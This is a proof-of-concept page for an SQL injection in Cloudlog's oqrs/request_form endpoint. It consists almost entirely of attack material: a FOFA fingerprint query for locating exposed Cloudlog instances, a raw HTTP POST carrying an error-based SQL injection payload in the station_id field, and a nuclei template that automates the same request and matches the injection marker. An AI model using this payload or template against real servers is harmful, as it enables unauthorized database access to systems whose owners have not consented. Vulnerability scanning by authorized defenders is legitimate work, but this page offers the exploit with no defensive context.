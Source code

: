 # fofa

```plain
icon_hash="-460032467"
```

# POC

```http
POST /index.php/oqrs/request_form HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

station_id=1 AND (SELECT 2469 FROM(SELECT COUNT(*),CONCAT(0x7162716b71,(SELECT (ELT(2469=2469,1))),0x7162716b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```



# nuclei

```yaml
id: Cloudlog-request_form-sqli

info:
  name: Cloudlog request_form SQL injection
  author: zxf
  severity: high

http:
  - raw:
    - |
      POST /index.php/oqrs/request_form HTTP/1.1
      Host: {{Hostname}}
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
      Content-Type: application/x-www-form-urlencoded
      Connection: close

      station_id=1 AND (SELECT 2469 FROM(SELECT COUNT(*),CONCAT(0x7162716b71,(SELECT (ELT(2469=2469,1))),0x7162716b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
    
    matchers:
      - type: word
        words:
          - "qbqkq1qbqkq1"
```

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1738999506044-c8f41034-c5c6-4b44-878f-3f5ef6b7d4bc.png)

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1738999487526-ad865c86-7eba-4a30-8bd8-56104493a24f.png)